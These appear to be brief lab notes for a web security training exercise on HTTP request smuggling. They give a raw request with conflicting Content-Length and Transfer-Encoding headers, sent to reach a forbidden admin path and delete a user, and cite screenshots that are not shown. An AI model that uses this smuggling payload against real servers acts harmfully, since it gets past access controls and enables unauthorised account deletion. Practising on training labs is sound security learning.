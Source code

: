 
1. Access the admin path, and verify that you are forbidden;

![[Pasted image 20231201140253.png]]

2. Execute the following request, and verify the behavior of the app;

```http
POST / HTTP/1.1
Host: 0ab6007b03d61cb8830d005f002600e6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

![[Pasted image 20231201140553.png]]

3. Send the following request, but add the header `TMP**`

![[Pasted image 20231201140933.png]]

4. Delete carlos;

![[Pasted image 20231201141036.png]]

![[Pasted image 20231201141057.png]]

